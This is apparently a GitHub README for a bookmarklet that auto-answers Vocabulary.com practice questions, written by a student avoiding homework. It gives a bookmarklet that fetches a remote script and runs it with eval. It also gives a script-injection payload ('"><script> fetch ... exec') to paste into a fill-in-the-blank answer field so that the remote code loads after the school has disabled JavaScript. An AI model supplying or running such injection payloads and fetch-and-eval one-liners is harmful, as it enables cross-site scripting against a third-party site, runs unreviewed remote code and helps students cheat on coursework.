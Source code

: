 # Vocabulary.com Bot Bookmarklet
Automatic Vocabulary.com mastery bookmarklet \
Automatically answers questions (auto answer) \
I made this because im too lazy to do my vocab 🤑

![](auto.gif)

## IMPORTANT
> My school disabled javascript from running so this will not be updated from now on!
> If you're wondering if your javascript is disabled copy this and paste in the url (Make sure "javascript:" is in the front)
```JS
javascript: alert("Javascript is enabled");
```
No alert = no javascript

## HOW TO RUN (Javascript enabled)
Make a new bookmark with this as the link & click it on your vocabulary.com practice
```JS
javascript:  fetch("https://raw.githubusercontent.com/urdakota/Vocabulary.com/main/Bypass/index.js").then((res) => res.text().then((t) => eval(t)))
```
## HOW TO RUN (Javascript disabled)
Work on the vocab till you get a fill in the blank question (spelling bee whateva)
Paste this code in
```JS
"><script>
    fetch(&apos;https://raw.githubusercontent.com/urdakota/Vocabulary.com/main/Bypass/index.js &apos;)
      .then(
      response => {
        response.text()
          .then(a=> exec(a))
        
      }
      )</script>
```
code from [here](https://stackoverflow.com/questions/63859970/loading-external-js-script-in-post-parameter-xss-reflected-attack)
KEEP THE " AT THE START OR IT WONT RUN

## What it does 🤔
- Automatically guesses & remembers the answers for multiple choice questions
- Automatically guesses & remembers the answers for image questions
- Automatically fills in the answer for spelling questions
